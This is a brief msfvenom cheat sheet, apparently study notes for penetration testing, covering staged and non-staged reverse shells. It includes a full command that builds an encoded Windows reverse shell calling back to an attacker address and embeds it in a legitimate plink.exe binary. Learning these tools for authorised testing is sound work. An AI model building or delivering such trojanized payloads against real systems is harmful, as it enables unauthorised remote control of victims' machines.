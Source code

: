 # msfvenom

## Resources

* [https://book.hacktricks.xyz/shells/shells/msfvenom](https://book.hacktricks.xyz/shells/shells/msfvenom)

## Non-Staged Shell

* shell is sent in one block
* catch it with metasploit multi-handler OR netcat

```bash
windows/meterpreter_reverse_tcp
#        ^stage one with all of the code
```

## Staged Shell

* shell is sent in pieces
* useful for small buffers when you need to divide up the payload
* Meterpreter is staged
* catch it with metasploit multi-handler but NOT with Netcat

```bash
windows/meterpreter/reverse_rcp 
#          ^stage one^stage two
```

## Inject Payload into Existing PE File

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -e 
x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o 
shell.exe
```

## Search Msfvenom

```bash
msfvenom --list payloads | grep searchTerm
```

## Resources and Cheat Sheets

* [https://netsec.ws/?p=331](https://netsec.ws/?p=331)
* [https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet](https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet)
